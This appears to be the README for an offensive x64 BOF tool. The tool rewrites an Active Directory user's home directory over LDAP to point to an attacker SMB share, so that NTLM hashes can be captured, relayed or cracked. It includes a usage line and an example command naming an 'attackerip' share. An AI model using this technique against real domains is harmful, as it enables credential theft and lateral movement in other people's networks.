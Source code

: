 BOF (*x64 only*) - *Home Directory* path modification via LDAP 

**Description**: leverage existing 'GenericAll' AD rights over an object (ie: user)
             to set their profile to an attacker smb server (ie: ntlmrelayx) to dump hashes, 
             relay, or crack.

**Usage**: home_mod \<username\> \<drive letter\> \<attacker share\>

**Example**: home_mod jblogg N \\\\attackerip\\bogus_share

